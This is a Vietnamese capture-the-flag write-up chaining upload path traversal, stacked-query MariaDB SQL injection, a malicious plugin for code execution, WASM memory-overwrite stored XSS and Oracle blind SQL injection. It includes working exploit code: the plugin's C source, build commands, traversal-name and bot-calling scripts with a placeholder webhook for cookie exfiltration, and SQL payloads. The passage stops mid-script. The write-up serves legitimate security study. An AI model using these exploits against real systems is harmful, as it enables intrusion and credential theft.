





**Description:**

Nhìn về ngàn năm ánh sáng, giấc mơ KMACTF.

<!--more-->

## Mô tả bài toán

Challenge có hai mục tiêu flag, nhưng điểm trung chuyển quan trọng là `mikasa`. Từ bên ngoài, người chơi chỉ đi vào được qua `nginx` rồi tới `mikasa`; hai service `internalbot` và `eren-app` đều nằm phía trong network nội bộ. Vì vậy writeup này đọc theo flow tuyến tính từ kiến trúc public vào dần các service nội bộ.

`mikasa` là ứng dụng Spring Boot public qua nginx, có chức năng upload file và search user trên MariaDB. Đây là service đầu tiên cần phân tích vì nó là cầu nối duy nhất tới các thành phần còn lại của bài.

Các thành phần nội bộ gồm `internalbot`, một bot Chromium truy cập service `web`, và `eren-app`, một API Node.js dùng `loopback-connector-oracle` và Oracle XE.

Stack chính:

- `web`: Node.js/Express, WebAssembly Go runtime, frontend render bằng DOM.
- `bot`: Puppeteer/Chromium headless, giữ `FLAG1` trong cookie.
- `mikasa`: Java Spring Boot, MariaDB local, nginx reverse proxy.
- `eren`: Node.js, LoopBack datasource juggler, Oracle XE.

Mục tiêu:

- Flag 1: cookie `flag` của admin bot.
- Flag 2: cột `SECRET` trong bảng Oracle `APPUSER.FLAG_FACTION`.

## Table of Contents

- [I. Overview](#i-overview)
  - [Kiến trúc service](#kiến-trúc-service)
  - [Cấu trúc file quan trọng](#cấu-trúc-file-quan-trọng)
  - [Endpoint quan trọng](#endpoint-quan-trọng)
- [II. Phân tích mã nguồn](#ii-phân-tích-mã-nguồn)
  - [A. Mikasa là entrypoint và hub nội bộ](#a-mikasa-là-entrypoint-và-hub-nội-bộ)
  - [B. Mikasa upload: filter trước, normalize sau](#b-mikasa-upload-filter-trước-normalize-sau)
  - [C. Mikasa search: SQLi có stacked queries](#c-mikasa-search-sqli-có-stacked-queries)
  - [D. Nhánh Flag 1: internalbot và web](#d-nhánh-flag-1-internalbot-và-web)
  - [E. Nhánh Flag 2: Eren và Oracle](#e-nhánh-flag-2-eren-và-oracle)
- [III. Phân tích lỗ hổng](#iii-phân-tích-lỗ-hổng)
  - [Chuỗi khai thác tổng quan](#chuỗi-khai-thác-tổng-quan)
  - [Lỗ hổng 1: Path Traversal qua Byte Normalization](#lỗ-hổng-1-path-traversal-qua-byte-normalization)
  - [Lỗ hổng 2: SQL Injection với stacked queries trong Mikasa](#lỗ-hổng-2-sql-injection-với-stacked-queries-trong-mikasa)
  - [Lỗ hổng 3: WASM memory overwrite dẫn tới Stored XSS](#lỗ-hổng-3-wasm-memory-overwrite-dẫn-tới-stored-xss)
  - [Lỗ hổng 4: Oracle Blind SQLi trong ORDER BY của Eren](#lỗ-hổng-4-oracle-blind-sqli-trong-order-by-của-eren)
- [IV. Khai thác](#iv-khai-thác)
  - [A. Tạo primitive RCE trong Mikasa](#a-tạo-primitive-rce-trong-mikasa)
  - [B. Nhánh Flag 1: gọi internalbot và kích hoạt Stored XSS](#b-nhánh-flag-1-gọi-internalbot-và-kích-hoạt-stored-xss)
  - [C. Nhánh Flag 2: Blind SQLi sang Eren](#c-nhánh-flag-2-blind-sqli-sang-eren)
- [V. Thảo luận](#v-thảo-luận)
  - [Vì sao không brute-force trực tiếp qua public nginx?](#vì-sao-không-brute-force-trực-tiếp-qua-public-nginx)
  - [Vì sao cần ghi kết quả về MariaDB?](#vì-sao-cần-ghi-kết-quả-về-mariadb)
  - [Lưu ý về payload Oracle](#lưu-ý-về-payload-oracle)
  - [Cách vá](#cách-vá)
- [Flag](#flag)
- [Tags](#tags)

## I. Overview

### Kiến trúc service



Các network trong `docker-compose.yml` cho thấy:

- `nginx` là cửa public vào `mikasa`.
- `mikasa` là hub nội bộ, nằm trong `nginx_mikasa_net`, `mikasa_bot_net` và `mikasa_eren_net`.
- Từ `mikasa`, script khai thác có thể gọi `internalbot:8000` qua `mikasa_bot_net`.
- Từ `mikasa`, script khai thác cũng có thể gọi `eren-app:3000` qua `mikasa_eren_net`.
- `eren-app` nói chuyện với Oracle qua `eren_internal_net`.
- `internalbot` truy cập được `web:3000` qua `bot_web_net` và có đường ra Internet qua `internet_net` để payload XSS exfiltrate cookie.

### Cấu trúc file quan trọng

| File | Vai trò |
|---|---|
| `web/server.js` | API feed/comment, lưu post theo `X-User-Id` |
| `web/public/feed-script.js` | Xử lý comment bằng WASM và render post/comment |
| `bot/app.js` | Admin bot, đặt cookie flag rồi submit comment |
| `mikasa/mikasa_source/com/mikasa/controller/MikasaController.java` | Route `/search` và `/upload` |
| `mikasa/mikasa_source/com/mikasa/service/FileService.java` | Filter filename, normalize byte, ghi file upload |
| `BOOT-INF/classes/application.properties` | Cấu hình MariaDB, có `allowMultiQueries=true` |
| `eren/index.js` | API `/api/faction/scan`, đưa `field` vào `ORDER BY` |
| `eren/oracle-init/init.sql` | Seed dữ liệu Oracle, trong đó có flag |

### Endpoint quan trọng

| Endpoint | Method | Service | Ghi chú |
|---|---|---|---|
| `/api/comment` | POST | `web` | Lưu comment và `processed_post_content` |
| `/api/feed` | GET | `web` | Trả post hiện tại của user |
| `/visit` | POST | `bot` | Bot nhận comment, mở trang web và submit comment; reachable từ `mikasa` qua `mikasa_bot_net` |
| `/upload` | POST | `mikasa` | Upload file dạng base64 |
| `/search` | POST | `mikasa` | Search user, có SQL injection |
| `/api/faction/scan?field=...` | GET | `eren` | Sort field đi vào Oracle `ORDER BY` |

## II. Phân tích mã nguồn

### A. Mikasa là entrypoint và hub nội bộ

Từ Internet, người chơi đi vào `nginx` rồi được reverse proxy tới `mikasa`. Các service `internalbot` và `eren-app` không phải mục tiêu giao tiếp trực tiếp từ ngoài. Muốn chạm tới hai service này, cần có code execution hoặc request primitive chạy từ trong `mikasa`.

Trong `docker-compose.yml`, `mikasa` nằm trên ba network:

```yaml
mikasa:
  networks:
    - nginx_mikasa_net
    - mikasa_bot_net
    - mikasa_eren_net
```

Vì vậy ta sẽ khai thác `mikasa` trước:

1. Tìm cách ghi file vào vị trí nhạy cảm.
2. Tìm cách kích hoạt file đó để có RCE.
3. Từ RCE trong `mikasa`, rẽ sang `internalbot` để lấy Flag 1 hoặc sang `eren-app` để lấy Flag 2.

### B. Mikasa upload: filter trước, normalize sau

Trong `FileService.java`, blacklist chạy trước khi normalize.

```java
if (this.trap(filename)) {
    return new UploadResult(false, "blocked", null);
}
String transformed = this.normalizeFileName(filename); // <- biến đổi sau filter
```

Hàm normalize bỏ bit cao của từng byte.

```java
private String normalizeFileName(String input) {
    byte[] b = input.getBytes(StandardCharsets.ISO_8859_1);
    for (int i = 0; i < b.length; ++i) {
        b[i] = (byte)(b[i] & 0x7F); // <- 0xaf thành '/', 0xae thành '.'
    }
    return new String(b, StandardCharsets.ISO_8859_1);
}
```

Sau đó app resolve path và normalize path.

```java
Path base = Paths.get(this.uploadFolder, userId);
Path target = base.resolve(prefix + transformed).normalize(); // <- traversal có hiệu lực
Files.write(target, content, new OpenOption[0]);
```

Điểm yếu nằm ở thứ tự xử lý. Filename ban đầu không chứa ký tự `/` hoặc `.`, nên qua được blacklist. Sau đó `normalizeFileName()` mới biến byte high-bit thành ASCII nguy hiểm, làm path traversal xuất hiện quá muộn để filter phát hiện.

### C. Mikasa search: SQLi có stacked queries

Trong `MikasaController.java`, route `/search` nối chuỗi trực tiếp vào SQL.

```java
String query = "SELECT * FROM user WHERE username = '" + username + "'"; // <- SQLi
List rows = this.jdbcTemplate.queryForList(query);
```

Cấu hình datasource cho phép stacked queries.

```properties
spring.datasource.url=jdbc:mysql://127.0.0.1:3306/mydb?...&allowMultiQueries=true
```

Blacklist SQL không chặn `INSTALL` hoặc `SONAME`.

```java
private static final List<String> BANNED_WORDS = Arrays.asList(
    "master", "change", "information_schema", "sys", "ban", "rand",
    "char", "schema", "updatexml", "compress", "union", "mid", "sub",
    "html", "right", "left", "concat", "static", "name_const", "slave",
    "out", "start", "base64", "status", "py", "delete", "drop", "priv",
    "execute", "alter", "global", "immediate", "exec", "\\*", "file"
);
```

Hai bug của `mikasa` ghép lại thành primitive quan trọng nhất của bài:

```text
Upload traversal ghi rpl.so/r.sh vào plugin_dir
       |
       v
SQLi stacked query chạy INSTALL SONAME 'rpl'
       |
       v
MariaDB load plugin và chạy script trong container mikasa
```

Từ đây mới có khả năng gọi `internalbot` hoặc `eren-app`.

### D. Nhánh Flag 1: internalbot và web

Trong `bot/app.js`, bot mở trang `web`, xóa storage/cookie, đặt cookie flag rồi submit comment nhận từ `/visit`.

```javascript
await page.setCookie({
  name: "flag",
  value: FLAG1,
  domain: "web",
  path: "/",
  httpOnly: false, // <- XSS có thể đọc document.cookie
  secure: false
});
```

`httpOnly: false` làm cookie đọc được bằng JavaScript nếu XSS chạy trong origin `web`. Tuy nhiên endpoint `/visit` của bot chỉ reachable từ `mikasa` qua `mikasa_bot_net`, nên payload gọi bot phải chạy trong script RCE ở `mikasa`.

Trong `web/public/feed-script.js`, comment bình thường dùng `textContent`, nhưng post content lại dùng `innerHTML`.

```javascript
const contentElement = document.createElement("span");
contentElement.textContent = comment.comment_content; // <- comment không chạy HTML trực tiếp

const postContent = document.createElement("div");
postContent.innerHTML = post.post_content; // <- sink XSS
postDiv.appendChild(postContent);
```

Điểm cần điều khiển là `post.post_content`. Giá trị này đến từ `processed_post_content` khi submit comment.

```javascript
body: JSON.stringify({
  user: currentUser,
  comment_content: commentText,
  processed_post_content: processedContent // <- server lưu vào post_content
});
```

`processedContent` được đọc từ vùng `CONTENT_CACHE` trong WASM memory.

```javascript
const contentCacheAddr = WASM_MEMORY_LAYOUT.CONTENT_CACHE;
const maxCacheSize = 768;

memoryBytes.fill(0, contentCacheAddr, contentCacheAddr + maxCacheSize);
memoryBytes.set(gameBytes.slice(0, maxCacheSize - 1), contentCacheAddr);

go.argv = ["game.wasm", userComment]; // <- userComment được runtime ghi vào WASM memory
go.run(wasmModule.instance).catch(e => {});

const processedContent = readStringFromMemory(
  memoryBytes,
  contentCacheAddr,
  maxCacheSize
);
```

Để thấy chính xác vì sao cần padding `16368` byte, cần nhìn vào memory layout tĩnh ở đầu `feed-script.js`:

```javascript
const WASM_MEMORY_LAYOUT = {
  ARGV_BASE: 0x1000,      // 4096
  CONTENT_CACHE: 0x5000,  // 20480
  STACK_BASE: 0x10000
};
```

Code frontend quy ước rất đơn giản:

| Vùng nhớ | Offset | Mục đích |
|---|---:|---|
| `ARGV_BASE` | `0x1000` = `4096` | nơi Go runtime ghi command-line arguments |
| `CONTENT_CACHE` | `0x5000` = `20480` | nơi frontend đọc kết quả sau khi WASM xử lý |
| `STACK_BASE` | `0x10000` | vùng stack |

Khoảng cách từ `ARGV_BASE` tới `CONTENT_CACHE` là:

```text
0x5000 - 0x1000 = 20480 - 4096 = 16384 bytes
```

Thiết kế này ngây thơ ở chỗ nó giả định dữ liệu command-line arguments sẽ không bao giờ dài tới mức chạm vào vùng `CONTENT_CACHE`. Nhưng việc ghi argument không được giới hạn trong một vùng riêng; nó ghi thẳng vào linear memory của WASM.

Trong `wasm_exec.js`, hàm `run()` của Go runtime bắt đầu ghi arguments từ offset `4096`:

```javascript
let offset = 4096;

const strPtr = (str) => {
  const ptr = offset;
  const bytes = encoder.encode(str + "\0");
  new Uint8Array(this.mem.buffer, offset, bytes.length).set(bytes); // <- không kiểm tra logical boundary
  offset += bytes.length;
  if (offset % 8 !== 0) {
    offset += 8 - (offset % 8);
  }
  return ptr;
};

const argvPtrs = [];
this.argv.forEach((arg) => {
  argvPtrs.push(strPtr(arg));
});
```

Điểm quan trọng là dòng `new Uint8Array(...).set(bytes)` chỉ cần `bytes.length` còn nằm trong toàn bộ `memory.buffer`. Nó không biết `CONTENT_CACHE` là vùng dữ liệu khác do `feed-script.js` tự quy ước, nên không có check kiểu "argument không được vượt quá `0x5000`".

Khi `processContentWithWASM()` chạy, nó đặt:

```javascript
go.argv = ["game.wasm", userComment];
```

Vòng lặp `this.argv.forEach()` trong `wasm_exec.js` vì vậy gọi `strPtr()` hai lần.

Lần thứ nhất ghi `argv[0] = "game.wasm"`:

| Bước | Giá trị |
|---|---:|
| Offset ban đầu | `4096` |
| Chuỗi được ghi | `"game.wasm\0"` |
| Độ dài | `10` bytes |
| Offset sau khi ghi | `4096 + 10 = 4106` |
| Căn lề 8 byte | `4106 % 8 = 2`, cần thêm `6` |
| Offset mới | `4112` |

Sau khi ghi xong `argv[0]`, khoảng cách còn lại tới `CONTENT_CACHE` là:

```text
20480 - 4112 = 16368 bytes
```

Lần thứ hai ghi `argv[1] = userComment`. Nếu comment có dạng:

```text
"A" * 16368 + ""
```

thì runtime bắt đầu ghi từ offset `4112`:

| Vùng được ghi | Nội dung |
|---|---|
| `4112` đến `20479` | `16368` byte chữ `A` |
| `20480` (`0x5000`) | ký tự `<` đầu tiên của payload XSS |
| `20481` trở đi | phần còn lại của payload XSS |

Nói cách khác, padding `16368` byte lấp đúng khoảng trống giữa vị trí bắt đầu của `userComment` và `CONTENT_CACHE`. Ngay sau padding, payload HTML rơi đúng vào địa chỉ `0x5000`.

Sau khi `go.run()` kết thúc, `feed-script.js` đọc lại kết quả từ chính địa chỉ `CONTENT_CACHE`:

```javascript
const processedContent = readStringFromMemory(
  memoryBytes,
  contentCacheAddr, // 0x5000
  maxCacheSize      // 768 bytes
);
```

Hàm `readStringFromMemory()` đọc từ `0x5000` cho tới byte null hoặc tối đa `768` byte. Vì payload `` đã được đặt đúng tại `0x5000`, biến `processedContent` nhận lại payload HTML thay vì chuỗi thống kê game ban đầu.

Cuối cùng, `submitComment()` gửi `processedContent` lên `/api/comment`:

```javascript
body: JSON.stringify({
  user: currentUser,
  comment_content: commentText,
  processed_post_content: processedContent
});
```

Server lưu `processed_post_content` thành `post_content`. Lần render tiếp theo, `post_content` đi vào `innerHTML`, nên payload XSS chạy trong trình duyệt bot và đọc được cookie `flag`.

### E. Nhánh Flag 2: Eren và Oracle

Trong `eren/index.js`, query parameter `field` đi vào `orderBy`.

```javascript
const field = pageConfig.propertiesSort;

let orderBy = 'createdAt DESC';
if (field) {
  orderBy = field + ' ' + sort; // <- field kiểm soát ORDER BY
}

const leaks = await FlagPipeline.find({
  where: filter,
  fields: {
    pipeId: true,
    title: true,
    payloadHint: true,
    isDisabled: true,
  },
  order: [orderBy], // <- sink Oracle SQLi
  limit: limit,
  skip: (page - 1) * limit,
});
```

API chỉ trả dữ liệu từ `FLAG_PIPELINE`, không trả cột `SECRET` của `FLAG_FACTION`, nên cần blind SQLi để đọc flag.

## III. Phân tích lỗ hổng

### Chuỗi khai thác tổng quan

```text
Entry:
Internet -> nginx -> mikasa
       |
       v
Upload traversal -> ghi rpl.so/r.sh vào MariaDB plugin_dir
       |
       v
SQLi stacked query -> INSTALL SONAME 'rpl'
       |
       v
RCE trong mikasa
       |
       +--> Flag 1: gọi internalbot:8000/visit -> web/WASM Stored XSS -> cookie bot
       |
       +--> Flag 2: gọi eren-app:3000 -> Oracle ORDER BY blind SQLi -> SECRET
```

### Lỗ hổng 1: Path Traversal qua Byte Normalization

Vị trí: `FileService.uploadFile()` và `FileService.normalizeFileName()`.

Nguyên nhân là app kiểm tra blacklist trước, sau đó mới biến đổi byte bằng `& 0x7F`. Các byte `0xaf` và `0xae` không bị filter chặn, nhưng sau normalize sẽ thành `/` và `.`.

Tác động: upload có thể thoát khỏi `/tmp/uploads/<user_id>/` và ghi vào `/home/ctf/lib/plugins/` (nơi mà plugin của MariaDB được load và user có full quyền ở thư mục này `chmod -R 777 /home/ctf/lib/plugins`).





### Lỗ hổng 2: SQL Injection với stacked queries trong Mikasa

Vị trí: route `POST /search`.

Nguyên nhân là tham số `username` được nối trực tiếp vào SQL, trong khi JDBC bật `allowMultiQueries=true`.

Payload chính:

```sql
x'; INSTALL SONAME 'rpl'; SELECT 'x
```

Tác động: MariaDB load plugin `rpl.so` từ `plugin_dir`. Hàm init của plugin chạy script `/home/ctf/lib/plugins/r.sh`, tạo RCE trong container `mikasa`.

### Lỗ hổng 3: WASM memory overwrite dẫn tới Stored XSS

Vị trí: `web/public/feed-script.js`.

Nguyên nhân là frontend tin vào nội dung được đọc từ WASM memory tại `CONTENT_CACHE`, rồi gửi nội dung đó lên server. Comment của người dùng được truyền qua `go.argv`. Khi comment đủ dài, dữ liệu ghi vào memory có thể chạm tới vùng `CONTENT_CACHE`.

Tác động: biến `post_content` thành HTML do người chơi kiểm soát. Do `post_content` được render bằng `innerHTML`, payload chạy trong origin `web` và đọc được cookie bot.

### Lỗ hổng 4: Oracle Blind SQLi trong ORDER BY của Eren

Vị trí: query parameter `field` tại `/api/faction/scan`.

Nguyên nhân là `field` đi thẳng vào `order` của LoopBack Oracle connector.

Payload kiểm chứng:

```text
/api/faction/scan?field=CREATED_AT"||CASE/**/WHEN/**/1=2/**/THEN/**/'A'/**/ELSE/**/TO_CHAR(TO_NUMBER('x'))/**/END||"CREATED_AT
```

Khi điều kiện sai, Oracle trả lỗi:

```json
{"success":false,"error":"ORA-01722: invalid number"}
```

Khi điều kiện đúng, response có:

```json
{"success":true,"factionLeaks":{...}}
```

Tác động: đọc từng ký tự của `FLAG_FACTION.SECRET` bằng boolean/error oracle.

## IV. Khai thác

### A. Tạo primitive RCE trong Mikasa

Đây là bước chung cho cả hai flag. Trước tiên cần upload plugin và script vào MariaDB `plugin_dir`, sau đó dùng SQLi để load plugin.

Plugin `rpl_plugin.c` chạy script khi được load:

```c
#include <stdlib.h>

#define MYSQL_DAEMON_PLUGIN 5
#define PLUGIN_LICENSE_GPL 1
#define MYSQL_DAEMON_INTERFACE_VERSION 0x0302

struct st_mysql_plugin {
    int type;
    void *info;
    const char *name;
    const char *author;
    const char *descr;
    int license;
    int (*init)(void *);
    int (*deinit)(void *);
    unsigned int version;
    void *status_vars;
    void *system_vars;
    void *reserved;
    unsigned long flags;
};

static int rpl_init(void *p) {
    (void)p;
    system("/bin/sh /home/ctf/lib/plugins/r.sh >/tmp/rpl.out 2>&1"); // <- chạy script trong mikasa
    return 0;
}

static int rpl_deinit(void *p) {
    (void)p;
    return 0;
}

int _maria_plugin_interface_version_ = 0x010e;
int _maria_sizeof_struct_st_plugin_ = sizeof(struct st_mysql_plugin);
static int daemon_info[] = { MYSQL_DAEMON_INTERFACE_VERSION };

struct st_mysql_plugin _maria_plugin_declarations_[] = {
    {
        MYSQL_DAEMON_PLUGIN,
        daemon_info,
        "rpl",
        "ctf",
        "load-time runner",
        PLUGIN_LICENSE_GPL,
        rpl_init,
        rpl_deinit,
        0x0100,
        0,
        0,
        0,
        0
    },
    {0}
};

```

Build plugin trong môi trường Linux tương thích với container challenge:

```bash
gcc -Wall -fPIC -shared -o rpl.so rpl_plugin.c
```

Trong local Docker, có thể build trực tiếp trong container `mikasa` để tránh lệch kiến trúc:

```powershell
docker cp ./rpl_plugin.c mikasa:/tmp/rpl_plugin.c
docker exec mikasa gcc -Wall -fPIC -shared -o /tmp/rpl.so /tmp/rpl_plugin.c
docker cp mikasa:/tmp/rpl.so ./rpl.so
```

Filename traversal được tạo bằng cách thay:

| Ký tự cần tạo sau normalize | Byte gửi lên | Sau `& 0x7F` |
|---|---|---|
| `/` | `0xaf` | `0x2f` |
| `.` | `0xae` | `0x2e` |

Code tạo filename:

```python
def traversal_name(target):
    slash = chr(0xAF)  # -> /
    dot = chr(0xAE)    # -> .
    encoded = target.replace("/", slash).replace(".", dot)
    return slash + (dot + dot + slash) * 4 + encoded.lstrip(slash)
```

Upload hai file vào MariaDB `plugin_dir`:

```python
upload(session, HERE / "rpl.so", "/home/ctf/lib/plugins/rpl.so")
upload(session, HERE / "r.sh", "/home/ctf/lib/plugins/r.sh")
```





Gửi payload vào `POST /search` để load plugin:

```sql
x'; INSTALL SONAME 'rpl'; SELECT 'x
```

Ý nghĩa:

| Đoạn | Mục đích |
|---|---|
| `x'` | Đóng chuỗi `username` hiện tại |
| `; INSTALL SONAME 'rpl';` | Load `/home/ctf/lib/plugins/rpl.so` |
| `SELECT 'x` | Cân bằng phần dấu `'` còn lại của query gốc |

Sau bước này, script `/home/ctf/lib/plugins/r.sh` chạy trong container `mikasa`. Nội dung script quyết định ta lấy Flag 1 hay Flag 2.

### B. Nhánh Flag 1: gọi internalbot và kích hoạt Stored XSS

Payload cần có hai phần:

| Thành phần | Giá trị | Mục đích |
|---|---|---|
| Padding | `"A" * 16368` | Đẩy dữ liệu tới vùng `CONTENT_CACHE` của WASM |
| HTML payload | `` | Chạy JavaScript khi render bằng `innerHTML` |

Vì `internalbot` nằm trong `mikasa_bot_net`, request tới `/visit` không gửi trực tiếp từ Internet. Ta đặt đoạn gọi bot vào script chạy trong `mikasa` sau khi đã có RCE bằng MariaDB plugin.

```bash
#!/bin/sh
/usr/bin/python3 - <<'PY'
import json
import urllib.request

BOT = "http://internalbot:8000/visit"
WEBHOOK = "https://YOUR-WEBHOOK.example/collect"

payload = (
    "A" * 16368 +
    ""
)

req = urllib.request.Request(
    BOT,
    data=json.dumps({"comment": payload}).encode(),
    headers={"Content-Type": "application/json"},
    method="POST",
)
print(urllib.request.urlopen(req).read().decode())
PY
```

Luồng thực tế:


Kết quả mong đợi: webhook nhận được `document.cookie`, trong đó có cookie `flag=...`.


### C. Nhánh Flag 2: Blind SQLi sang Eren

Script `r.sh` chạy trong `mikasa`, nên nó gọi được:

```text
http://eren-app:3000/api/faction/scan
```

Hàm kiểm tra prefix trong `r.sh` tạo payload `ORDER BY` dạng:

```python
condition = (
    "(SELECT/**/COUNT(1)/**/FROM/**/FLAG_FACTION"
    "/**/WHERE/**/SECRET/**/LIKE/**/" + pattern +
    "/**/ESCAPE/**/CHR(33))>0"
)

field = (
    'CREATED_AT"||CASE/**/WHEN/**/' + condition +
    "/**/THEN/**/'A'/**/ELSE/**/TO_CHAR(TO_NUMBER('x'))/**/END||" +
    '"CREATED_AT'
)
```

`CHR(...)` được dùng thay vì literal string trực tiếp để giữ đúng chữ hoa/chữ thường và tránh một số xử lý không mong muốn của connector.

Khi script tìm được flag, nó ghi lại vào MariaDB:

```python
sql = (
    "INSERT INTO user (username,email) VALUES ('eren_flag','%s') "
